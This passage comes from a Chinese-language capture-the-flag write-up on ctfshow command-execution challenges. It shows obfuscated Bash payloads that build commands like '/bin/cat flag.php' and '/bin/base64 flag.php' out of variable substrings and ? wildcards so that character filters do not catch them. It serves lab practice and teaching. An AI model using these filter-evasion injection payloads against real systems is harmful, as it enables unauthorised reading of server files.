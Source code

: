    >
   > ```
   > ${PHP_CFLAGS:${PHP_VERSION:${PHP_VERSION:~A}:~${SHLVL}}:${PHP_VERSION:${PHP_VERSION:~A}:~${SHLVL}}} ????.???
   > ```

2. 构造`/bin/cat flag.php`，就是hint给出的：

   ```
   ${HOME:${#HOSTNAME}:${#SHLVL}}     ====>   $HOME的第$HOSTNAME个后取$SHLVL个为t
   ```

3. 参考ly's师傅的：[ctfshow-命令执行Ly's的博客-CSDN博客](https://blog.csdn.net/weixin_45794666/article/details/111403030)

   > 构造 `/bin/base64 flag.php`，因为`?`和`空格`没被过滤,所以只需要用内部函数构造/和4就行
   >
   > ```
   > /???/???4 ???.???
   > ```
   >
   > 
   >
   > 用到的内置变量：
   >
   > 1. $RANDOM 产生随机整数 范围在0 - 32767之间
   > 在linux中可以用 `${#变量}`显示变量的长度
   > 那么`${#RANDOM}`就有概率得到4了，多请求几次即可
   >
   > 2. $PWD为/var/www/html,这里也没有过滤,变量前一位为::1
   > 但是1也是被过滤的,所以还需要构造1
   >
   > 3. SHLVL 是记录多个 Bash 进程实例嵌套深度的累加器
   >
   > 默认开始是1，那么就利用他来构造1
   >
   > ```
   > ${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
   > /bin/base64 flag.php
   > ```



## 120

> 长度不能超过65
>

PHP_CTLAGS=-fstack-protectxxxxxx64
PHP_VERSION=7.3.22
SHLVL=2（深度，默认为1）

构造指令 `/bin/base64 flag.php`

```
${PWD::${#SHLVL}} = / ; 
${#RANDOM}取生成随机数的长度,只要是四位数就能得到base64的flag
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
```
